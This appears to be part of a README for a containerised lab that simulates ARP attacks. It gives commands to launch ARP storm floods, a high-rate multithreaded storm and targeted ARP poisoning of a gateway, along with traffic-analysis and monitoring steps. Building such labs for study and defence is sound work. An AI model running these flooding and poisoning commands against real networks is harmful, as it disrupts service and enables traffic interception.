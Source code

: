 ### Basic Attack Testing

#### 1. Python-based ARP Storm Attack
```bash
# Run basic storm attack through lab manager
./lab-manager.sh attack basic

# Or manually access attacker container
docker-compose exec attacker /bin/bash
python arp_dos_storm.py --storm --subnet 10.0.1 --duration 60
```

#### 2. High-Performance C++ Attack
```bash
# Run intense attack scenario
./lab-manager.sh attack intense

# Or manually
docker-compose exec attacker ./arp_storm --subnet 10.0.1 --duration 30 --threads 4 --rate 500
```

#### 3. Targeted Poisoning Attack
```bash
# Run targeted attack
./lab-manager.sh attack poison

# Or manually
docker-compose exec attacker python arp_dos_storm.py --poison --targets 10.0.1.20 --gateway 10.0.1.1
```

## Monitoring and Analysis Testing

### 1. Real-time Web Dashboard
Access the monitoring interface:
- **Dashboard**: http://localhost:8080
- **Victim Services**: http://localhost:80

### 2. Traffic Analysis
```bash
# Access observer container for manual analysis
docker-compose exec observer /bin/bash
python arp_analyzer.py --duration 300 --output analysis.json

# View real-time logs
docker-compose logs -f observer
```

### 3. Network Reconnaissance Testing
From the `attacker_main.py` interactive menu:
```bash
docker-compose exec attacker python attacker_main.py
# Select option 6 for Network Reconnaissance
```
